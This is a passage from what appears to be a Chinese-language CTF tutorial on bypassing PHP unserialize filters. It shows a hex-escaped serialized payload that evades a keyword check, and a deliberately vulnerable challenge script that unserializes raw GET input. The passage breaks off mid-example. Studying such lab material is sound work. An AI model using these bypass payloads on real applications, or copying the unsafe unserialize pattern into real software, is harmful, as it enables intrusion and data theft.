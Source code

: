 ```php
        return $data;
    }
}
// 未作处理前
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 做处理后 \75是u的16进制
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```

## stdClass 绕过

stdClass 是 PHP 中的一个内置类，用于创建一个通用的对象。stdClass 对象通常用于创建一个空对象，它没有预定义的属性或方法。这对于将数据存储在一个具有动态属性的结构中非常有用，因为你可以随时添加和删除属性。

当题目没有给出一个现有的类时，可以考虑使用内置类 stdClass，stdClass 没有杂七杂八的方法和变量，在构造 exp 时可以避免一些其他内置类可能产生的错误。

例题如下:
1. 序类化字符串中不能有 flag 字符串。
2. 反序列化之后的 flag 属性值如果为 flag，则将 flag 属性赋值为真正的 flag。
3. 遍历所有属性，如果属性名不为 flag 则输出 flag。

```php
<?php
highlight_file(__FILE__);
include 'flag.php';

$obj = $_GET['obj'];

if (preg_match('/flag/i', $obj)) {
    die("?");
}
$obj = @unserialize($obj);
var_dump($obj);
if ($obj->flag === 'flag') {
    $obj->flag = $flag;
}
foreach ($obj as $k => $v) {
    if ($k !== "flag") {
        echo $v;
    }
}
```

这里涉及到多个知识点：
1. 第一个是 preg_match 的绕过，可以使用 unicode 进行绕过。
2. php 在反序列化时不会严格限制序列化字符串中的属性个数是否与类的定义一致，举个例子：假设类中仅有两个属性 username 和 password。
    ```php
    <?php
    class Person{
        public $username;
        public $password;
